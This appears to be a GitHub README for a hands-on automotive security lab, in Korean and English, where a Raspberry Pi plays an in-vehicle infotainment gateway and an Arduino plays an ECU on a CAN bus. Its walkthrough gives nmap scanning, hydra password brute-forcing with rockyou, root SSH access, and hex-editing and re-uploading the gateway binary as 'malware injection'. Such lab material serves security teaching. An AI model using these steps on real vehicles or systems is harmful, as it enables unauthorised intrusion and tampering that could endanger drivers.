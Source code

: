 # SmartCar
## Project goal
Implementation of Smart-Car CAN protocol & Utility data for IVI(In-Vehicle Infotainment) gateway attack using vulnerable port.

## Practice Equipments
- **RPi**: IVI Gateway 역할, 자동차 외부 네트워크의 Gateway
- **Arduino**: ECU 제어 역할, 자동차 내부 시스템의 ECU 제어
- **CAN shield**: RPi ↔ Arduino간 CAN 프로토콜 통신 가능
- **Sensors**: Motor, Text LCD, LCD Monitor
- **Android**: Android 앱, SmartCar 조종 인터페이스 제공
- **SmartCar.pdf**: SmartCar 실습 방법 문서

## Architecture
![architecture](https://user-images.githubusercontent.com/20378368/105503161-9c1a7300-5d09-11eb-871d-fbd33bc41c54.PNG)

## IVI Gateway Attack
![attack](https://user-images.githubusercontent.com/20378368/105503603-24991380-5d0a-11eb-8a7a-1387fc79391d.png)
- **Step 1**: IVI Gateway Log 분석  
![step1](https://user-images.githubusercontent.com/20378368/105573332-1c8bb300-5da0-11eb-9b70-fdc469eea789.PNG)
```
- Android App ↔ IVI Gateway 통신 과정에서의 Log 분석
```
- **Step 2**: TCP Port Scanning
```
- Kali Linux 설치
- 설치 방법: https://hack-cracker.tistory.com/78
```
- **Step 3**: Password Cracking
```
- Android App ↔ IVI Gateway 통신 과정에서의 Port 분석
- nmap <IVI Gateway IP> -sS -sV -p <Port Number>
- ping <IVI Gateway IP> -c 5
- gzip -d /usr/share/wordlists/rockyou.txt.gz
-  hydra -l <ID> -P <PW Dictionary File Path> -V -f -o <Output Path> <Service://IP:Port>
```
- **Step 4**: root 권한으로 SSH 원격 접속
```
- ssh -l <ID> -p <Port> <IVI Gateway IP>
- Step 3에서 찾아낸 root password로 접속
```
- **Step 5**: IVI Gateway의 네트워크 상태 확인
```
- netstat -tnlp
- file /proc/<PID 번호>/exe
```
- **Step 6**: SSH를 이용한 IVI Gateway 바이너리 취득
```
- scp root@<IVI Gateway IP>:<iviGateway 파일 경로> <Kali Linux에 저장될 경로>
```

### Malware Injection
- **Step 1**: Hex Editor를 이용한 바이너리 수정  
![step2](https://user-images.githubusercontent.com/20378368/105573522-8ce70400-5da1-11eb-9e8d-0f6ef08e5c32.PNG)
```
- 명령어 부분에 의미 없는 값으로 변조 → 해당 기능 동작 X
- 명령어 부분에 다른 명령어 값으로 변조 → 해당 기능 대신 다른 기능 실행됨
```
- **Step 2**: SSH를 이용한 Malware Injection
```
- scp <Kali Linux에 저장된 경로> root@<IVI Gateway IP>:<iviGateway 파일 경로>
```
- **Step 3**: IVI Gateway 다시 시작
```
- ssh root@<IVI Gateway IP>
- init 6
```